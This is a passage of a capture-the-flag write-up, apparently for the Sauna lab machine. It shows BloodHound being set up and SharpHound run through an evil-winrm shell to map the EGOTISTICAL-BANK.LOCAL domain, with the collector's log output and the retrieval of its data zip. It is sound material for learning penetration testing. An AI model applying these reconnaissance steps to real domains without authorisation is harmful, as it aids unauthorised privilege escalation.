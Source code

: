 Possiamo usare Bloodhound per enumerare e visualizzare il dominio Active Directory e identificare le possibili catene di attacco che ci permetteranno di elevare i nostri privilegi di dominio.
First we go to download and set up the environment.

    curl -o docker-compose.yml https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml && sudo docker-compose -f docker-compose.yml up

We can now visit in the bloodhound browser `http://127.0.0.1:8080`, we go up <span class="underline">settinggs -> Download Collectors</span> and download the collector `Sharphound`.
Once a downloaded, through always evil-winrm we go to upload it to the target machine.

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> ./SharpHound.exe
    2024-03-03T20:44:55.1098536-08:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
    2024-03-03T20:44:55.2502878-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices
    2024-03-03T20:44:55.2658560-08:00|INFORMATION|Initializing SharpHound at 8:44 PM on 3/3/2024
    2024-03-03T20:44:55.4377247-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for EGOTISTICAL-BANK.LOCAL : SAUNA.EGOTISTICAL-BANK.LOCAL
    2024-03-03T20:45:19.5783301-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices
    2024-03-03T20:45:19.7660621-08:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL
    2024-03-03T20:45:19.7660621-08:00|INFORMATION|Testing ldap connection to EGOTISTICAL-BANK.LOCAL
    2024-03-03T20:45:19.8283323-08:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL Configuration NC

Thanks again to evil-winrm let's go get the zipper containing all the json that bloodhound wants.

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> dir
    
    
        Directory: C:\Users\svc_loanmgr\Documents
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----         3/3/2024   8:46 PM          22308 20240303204602_BloodHound.zip
    -a----         3/3/2024   8:44 PM        1343488 SharpHound.exe
    -a----         3/3/2024   8:46 PM          45175 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin

When taken all we have to do is go back to the bloodhound homepage, <span class="underline">settings -> administartor -> upload file</span> and upload them.
After a while searching the path from our current user `svc_loanmgr` to the admin group we will see something interesting.